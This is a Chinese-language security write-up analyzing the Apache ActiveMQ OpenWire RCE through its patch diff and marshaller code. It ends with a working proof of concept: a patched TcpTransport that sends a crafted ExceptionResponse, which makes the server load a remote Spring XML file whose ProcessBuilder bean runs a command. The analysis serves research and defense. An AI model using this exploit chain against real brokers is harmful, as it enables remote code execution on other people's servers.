







# Apache ActiveMQ RCE 分析 - 先知社区

Apache ActiveMQ RCE 分析


中午吃饭的时候看到赛博昆仑发了 Apache ActiveMQ 的漏洞通告，于是去翻了翻 github commit

第一眼看感觉跟之前那个 spring-amqp 的漏洞差不多就偷个懒没复现，后来发现大伙都在看这个洞

自己之前没怎么接触过 ActiveMQ, 不过好在最后花了一点时间复现了出来，简单记录一下分析的思路

影响版本：

*   Apache ActiveMQ < 5.18.3
    
*   Apache ActiveMQ < 5.17.6
    
*   Apache ActiveMQ < 5.16.7
    
*   Apache ActiveMQ < 5.15.16
    

参考：

[https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f](https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f)

[https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java](https://github.com/apache/activemq/blob/1d0a6d647e468334132161942c1442eed7708ad2/activemq-openwire-legacy/src/main/java/org/apache/activemq/openwire/v4/ExceptionResponseMarshaller.java)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172300-41cc3dce-73e1-1.png)

根据 diff 可以发现新版本为 BaseDataStreamMarshaller 类加入了 validateIsThrowable 方法

```bash
public static void validateIsThrowable(Class<?> clazz) {
    if (!Throwable.class.isAssignableFrom(clazz)) {
        throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
    }
}
```

然后经过一些简单的搜索可以发现 ExceptionResponseMarshaller 这个类，它是 BaseDataStreamMarshaller 的子类

其 tightUnmarshal/looseUnmarshal 方法会调用 tightMarshalThrowable/looseMarshalThrowable, 最终调用到 BaseDataStreamMarshaller 的 createThrowable 方法，后者可以调用任意类的带有一个 String 参数的构造方法

ExceptionResponseMarshaller 顾名思义就是对 ExceptionResponse 进行序列化/反序列化的类

ExceptionResponse 的定义如下

```bash
package org.apache.activemq.command;

public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
    Throwable exception;

    public ExceptionResponse() {
    }

    public ExceptionResponse(Throwable e) {
        this.setException(e);
    }

    public byte getDataStructureType() {
        return 31;
    }

    public Throwable getException() {
        return this.exception;
    }

    public void setException(Throwable exception) {
        this.exception = exception;
    }

    public boolean isException() {
        return true;
    }
}
```

回到上面的 BaseDataStreamMarshaller

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172337-57c716a8-73e1-1.png)

有若干 Marshal/unmarshal 方法

这里以 tightUnmarsalThrowable 为例

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172355-626e9662-73e1-1.png)

方法内部会获取 clazz 和 message, 然后调用 createThrowable

找到对应的 tightMarshalThrowable

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172407-6a0758f0-73e1-1.png)

o 就是 ExceptionResponse 里面的 exception 字段 (继承了 Throwable), 然后分别将 o 的 className 和 message 写入序列化流

到这里思路其实已经差不多了，我们只需要构造一个 ExceptionResponse 然后发给 ActiveMQ 服务器，之后 ActiveMQ 会自己调用 unmarshal, 最后触发 createThrowable

下面只需要关注如何发送 ExceptionResponse 即可

参考网上的入门教程写了一个 demo

```bash
package com.example;

import org.apache.activemq.ActiveMQConnectionFactory;

import javax.jms.*;

public class Demo {
    public static void main(String[] args) throws Exception {

        ConnectionFactory connectionFactory = new ActiveMQConnectionFactory("tcp://localhost:61616");
        Connection connection = connectionFactory.createConnection();
        connection.start();
        Session session = connection.createSession();
        Destination destination = session.createQueue("tempQueue");

        MessageProducer producer = session.createProducer(destination);
        Message message = session.createObjectMessage("123");
        producer.send(message);

        connection.close();
    }
}
```

然后随便打几个断点试试 (注意在一次通信的过程中 ActiveMQ 会 marshal / unmarshal 一些其它的数据，调试的时候记得判断)

`org.apache.activemq.openwire.OpenWireFormat#doUnmarshal()`

先获取 dataType, 然后根据它的值去 this.dataMarshallers 里面获取对应的序列化器

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172429-77248cb0-73e1-1.png)

这个 dataType 其实对应的就是 Message 类内部的 `DATA_STRUCTURE_TYPE` 字段

在 demo 中我们发送的是一个 ObjectMessage (ActiveMQObjectMessage) 对象，它的 dataType 是 26

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172445-80305528-73e1-1.png)

而 ExceptionResponse 的 dataType 是 31, 对应上图中的 ExceptionResponseMarshaller

获取到了对应的序列化器之后，会调用它的 tightUnmarshal / looseUnmarshal 方法进一步处理 Message 内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172458-88523fa0-73e1-1.png)

我一开始的思路是去修改 ObjectMessage 的 `DATA_STRUCTURE_TYPE` 字段，把它改成 31 然后发送

后来想了一会发现不能这么搞，因为对于不同的 Message 类型，序列化器会单独进行处理，比如调用 writeXXX 和 readXXX 的类型和次数都不一样

因为 ExceptionResponseMarshaller 也有 marshal 方法，所以思路就改成了如何去发送一个经由这个 marshaller 处理的 ExceptionResponse

后面开始调试 client 发数据的过程

给 OpenWireFormat 的 marshal 系列方法打个断点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172514-91b5b928-73e1-1.png)

调用栈往前翻可以找到 TcpTransport 这个类

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172531-9b9d91b8-73e1-1.png)

它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command

command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法，将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

这里我没有分析 OpenWire 协议，而是用了一个比较取巧的办法

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类，然后重写对应的逻辑，这样在运行的时候，因为 classpath 查找顺序的问题，程序就会优先使用当前源码目录里的 TcpTransport 类

然后是 createThrowable 方法的利用，这块其实跟 PostgreSQL JDBC 的利用类似，因为 ActiveMQ 自带 spring 相关依赖，那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE

```bash
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名，而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172550-a6fa4b00-73e1-1.png)

```bash
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20231026172608-b208aeba-73e1-1.png)
